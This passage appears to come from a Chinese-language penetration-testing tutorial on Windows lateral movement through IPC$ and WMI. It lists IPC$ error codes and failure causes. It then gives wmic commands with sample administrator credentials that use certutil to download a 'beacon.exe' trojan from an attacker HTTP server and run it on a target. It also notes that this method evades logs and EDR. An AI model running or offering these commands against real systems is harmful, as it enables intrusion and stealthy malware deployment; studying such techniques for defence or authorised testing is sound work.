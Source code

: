 > 常见问题：

```yaml
5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限
51：网络问题，Windows无法找到网络路径
53：找不到网络路径，可能是IP地址错误. 目标未开机. 目标Lanmanserver服务未启动. 有防火墙等问题
67：找不到网络名，本地Lanmanworkstation服务未启动，目标删除ipc$
1219：提供的凭据和已存在的凭据集冲突，说明已建立IPC$，需要先删除
1326：账号密码错误
1792：目标NetLogon服务未启动，连接域控常常会出现此情况
2242：用户密码过期，目标有账号策略，强制定期更改密码
```

> 建立 IPC 失败的原因：

```plain
（a）目标系统不是 NT 或以上的操作系统
（b）对方没有打开 IPC$共享
（c）对方未开启 139. 445 端口，或者被防火墙屏蔽
（d）输出命令。账号密码有错误
```

## [](#WMI%E6%A8%AA%E5%90%91 "WMI横向")WMI 横向[](#WMI%E6%A8%AA%E5%90%91)

`WMI`是通过`135`端口进行利用，支持明文用户密码或者`hash`的方式认证，并且该方法不会在目标日志系统留下痕迹。使用 wmic 远程执行命令，在远程系统中启动`windows management lnstrumentation` 服务（目标服务器需要开放`135`端口，`wmic`会以管理员权限在远程系统中执行命令）。如果目标服务器开启了防火墙，wmic 将无法进行连接。`wmic命令没有回显`，需要使用 ipc$和 type 命令来读取信息，若使用 wmic 执行恶意程序，`将不会留下日志`。

利用前提和注意事项：

1.  目标防火墙已事先允许 135. 445 端口连入，且本地杀软。EDR 未拦截 wmic.exe,cmd.exe 等执行；
2.  有些域账户只允许在指定的域内机器上才可登录，所以如果发现账密是对的，却会提示“拒绝访问” ；
3.  出现提示”无效句柄”之类的错误，可尝试把目标 ip 换成机器名或者把机器名换成 ip，ip 或机器名用双引号包起来；
4.  当提示“RPC 服务器不可用”时，有可能是目标防火墙导致 135 端口不通，或者目标系统没开 135 端口，要么就是被对方杀软或 EDR 拦截。

### [](#wmic "wmic")wmic[](#wmic)

#### [](#wmic-1 "wmic")wmic[](#wmic-1)

无需上传第三方软件，利用系统内置程序，执行过程中有单模式执行和交互式执行  
可以只执行命令，`或者反弹shell`  
单命令执行，执行后无结果回显，可以将木马上传到该内网 web 目录下，然后调用文件下载命令上线 cs：

```bash
# 请先提前搭建一个http服务器 如python一句话或phpstudy 放入木马exe文件

shell wmic /node:192.168.91.178 /user:administrator /password:Abcd1234 process call create "cmd.exe /c certutil -urlcache -split -f http://192.168.91.1/beacon.exe c:/beacon.exe"

# 运行文件并上线

shell wmic /node:192.168.91.178 /user:administrator /password:Abcd1234 process call create "c:\windws\system32\cmd.exe c:\beacon.exe"
```
